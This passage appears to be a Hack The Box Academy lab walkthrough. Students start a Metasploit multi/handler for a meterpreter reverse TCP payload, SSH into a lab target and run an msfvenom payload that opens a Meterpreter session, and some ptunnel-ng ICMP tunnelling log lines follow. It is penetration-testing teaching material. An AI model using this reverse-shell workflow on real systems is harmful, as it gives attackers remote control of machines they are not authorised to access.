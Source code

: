 ```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 0.0.0.0

LHOST => 0.0.0.0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 9001
LPORT => 9001
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 0.0.0.0:9001
```

Then, if not connected to the spawned target over SSH, students need to do so:

Code: shell

```shell
ssh -i id_rsa webadmin@STMIP
```

```
┌─[eu-academy-1]─[10.10.15.28]─[htb-ac413848@htb-wfcjqqqtou]─[~]
└──╼ [★]$ ssh -i id_rsa webadmin@10.129.88.197

The authenticity of host '10.129.88.197 (10.129.88.197)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.88.197' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

<SNIP>

Last login: Sun May 22 20:42:25 2022
webadmin@inlanefreight:~$
```

Then, students need to execute the transferred `msfvenom` payload after making it executable:

Code: shell

```shell
chmod +x 99c0b43c4bec2bdc280741d8f3e40338.elf
./99c0b43c4bec2bdc280741d8f3e40338.elf
```

```
webadmin@inlanefreight:~$ chmod +x 99c0b43c4bec2bdc280741d8f3e40338.elf
webadmin@inlanefreight:~$ ./99c0b43c4bec2bdc280741d8f3e40338.elf
```

Students will notice that a `Meterpreter` session has been established successfully on the `exploit/multi/handler` module:

```
[*] Sending stage (3020772 bytes) to 10.129.88.197
[*] Meterpreter session 1 opened (10.10.15.28:9001 -> 10.129.88.197:37020) at 2022-11-20 12:49:56 +0000

(Meterpreter 1)(/home/webadmin) >
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.